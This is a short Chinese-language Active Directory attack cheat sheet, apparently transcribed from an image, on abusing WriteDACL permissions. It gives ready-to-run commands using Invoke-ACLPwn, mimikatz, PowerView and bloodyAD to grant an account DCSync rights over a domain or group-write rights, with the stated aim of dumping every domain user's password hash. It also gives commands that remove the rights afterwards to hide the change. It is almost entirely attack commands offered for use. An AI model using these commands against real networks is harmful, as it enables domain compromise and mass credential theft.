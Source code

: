 	WriteDACL权限可以修改域对象的ACL，最终实现利用DCSync导出域内所有用户hash
	Invoke-ACLPwn是一个自动发现和 pwnage Active Directory 中配置不安全的 ACL 的工具
	https://github.com/fox-it/Invoke-ACLPwn
	>./Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -Username 'user1' -Domain 'domain.local' -Password 'Welcome01!'
#### 域上的 WriteDACL
	Windows 上
	将 DCSync 权限授予主体身份
	>Import-Module .\PowerView.ps1
	>$SecPassword = ConvertTo-SecureString 'user1pwd' -AsPlainText -Force
	>$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN.LOCAL\user1', $SecPassword)
	>Add-DomainObjectAcl -Credential $Cred -TargetIdentity 'DC=domain,DC=local' -Rights DCSync -PrincipalIdentity user2 -Verbose -Domain domain.local 
	Linux 上
	将 DCSync 权限授予主体身份
	>bloodyAD.py --host [DC IP] -d DOMAIN -u attacker_user -p :B4B9B02E6F09A9BD760F388B67351E2B addDomainSync user2
	DCSync后移除权限
	>bloodyAD.py --host [DC IP] -d DOMAIN -u attacker_user -p :B4B9B02E6F09A9BD760F388B67351E2B delDomainSync user2
#### 组上的 WriteDACL
	>Add-DomainObjectAcl -TargetIdentity "INTERESTING_GROUP" -Rights WriteMembers -PrincipalIdentity User1
	>net group "INTERESTING_GROUP" User1 /add /domain